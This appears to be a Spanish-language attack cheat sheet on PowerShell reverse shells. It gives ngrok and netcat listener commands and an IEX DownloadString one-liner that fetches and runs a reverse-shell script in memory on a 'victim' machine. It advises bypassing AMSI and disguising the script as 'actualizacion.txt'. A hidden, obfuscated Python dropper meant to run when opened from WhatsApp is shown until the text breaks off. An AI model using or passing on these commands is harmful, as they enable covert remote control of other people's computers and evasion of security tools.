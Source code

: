 ## Revershell con Powershell

 * [Invoke-PowershellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```bash 
❯ ngrok tcp 443         # Exponemos publico el puerto 443 y Ngrok nos devolvera un 'tcp://2.tcp.ngrok.io:19215'. Utilizaremos la parte de '2.tcp.ngrok.io' en IPAddress y '19215' para el Port en el script de la revershell de abajo.  

❯ rlwrap nc -nlvp 443   # Recibir la revershell en Kali
```

```bash 
# Creamos un script con el contenido del enlace de arriba y al final le agregaremos este comando para poder usar Ngrok

❯ nvim Invoke-PowershellTCP.ps1

	Invoke-PowerShellTcp -Reverse -IPAddress 2.tcp.ngrok.io -Port 19215 

Nota: 
	1. Debemos Bypasear AMSI, de lo contrario nos detectara codigo malicioso
	1. Este script lo podemos cargar a nuestro Github, ya que eso lo hara mas confiable al momento de llamarlo desde la maquina victima 
	2. Podemos colocarle un nombre discreto al script como 'actualizacion.txt'
```

```bash 
# Desde la maquina victima con Windows llamamos al script que se encuentra almacenado en nuestro Github, esto lo hace a nivel de memoria por lo que es dificil de detectar y sirve como metodo de evasion

Nota: La url que se coloca es la que nos muestra al momento de darle 'Raw' al script almacenado en 'Github'

❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Scripts/main/Invoke-PowershellTCP.ps1')"

Nota: 
	1. Si se ejecuta el comando desde un 'cmd' en Windows colocarlo asi como aparece. Pero si se esta ejecutando desde la consola de PS quitarle 'powershell -c'
```

## Revershell indetectable con Powershell utilizando Python 3

```bash 
Nota: 
	1. Crear un script en python con la extension '.pyz' para que windows lo pueda ejecutar al abrirlo desde la aplicación de whatsapp 
```

```python
import os 

os.system('powershell -nop -W hidden -noni -ep bypass -c "'
'$u3e = \\"10.10.10.128\\"; '
'$k6u = 448; '
'function Connect-Back { '
'try { '
'$f1 = New-Object System.Net.Sockets.TCPClient($u3e, $k6u); '
'$f2 = $f1.GetStream(); '
'$d5g = New-Object System.IO.StreamReader($f2); '
'$j2h = New-Object System.IO.StreamWriter($f2); '
'$j2h.WriteLine(\\"[+] Conexión establecida con la Revershell\\"); '
```